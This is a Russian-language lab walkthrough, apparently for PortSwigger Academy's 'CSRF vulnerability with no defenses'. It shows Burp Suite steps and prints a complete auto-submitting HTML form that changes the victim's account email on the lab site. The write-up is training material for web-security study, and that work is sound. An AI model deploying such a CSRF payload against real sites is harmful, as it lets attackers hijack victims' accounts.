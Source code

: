 Залогинимся на уязвимом ресурсе под данными в условии задачи кредами `wiener:peter`

изменим почтовый ящик на `wiener@test.net`

и найдем в `Proxy`-> `http history` нужный нам запрос
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/1.%20CSRF%20vulnerability%20with%20no%20defenses/pics%20for%20walkthrough/1.png)

нажмем на найденный запрос `правой кнопкой мыши` -> `Engagement tools` -> `Generate CSRF PoC`
и получаем следующий ответ

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ad7004603622c6d805f08f900ae00be.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;test&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

изменим там почтовый ящик на `value="wiener&#64;test2&#46;net" />` чтобы у жертвы изменился на другую, отличную от нашей почты
и нажмем `store` и `Deliver to victim`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/1.%20CSRF%20vulnerability%20with%20no%20defenses/pics%20for%20walkthrough/2.png)

и получаем уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Cross-site%20request%20forgery%20(CSRF)/1.%20CSRF%20vulnerability%20with%20no%20defenses/pics%20for%20walkthrough/3.png)
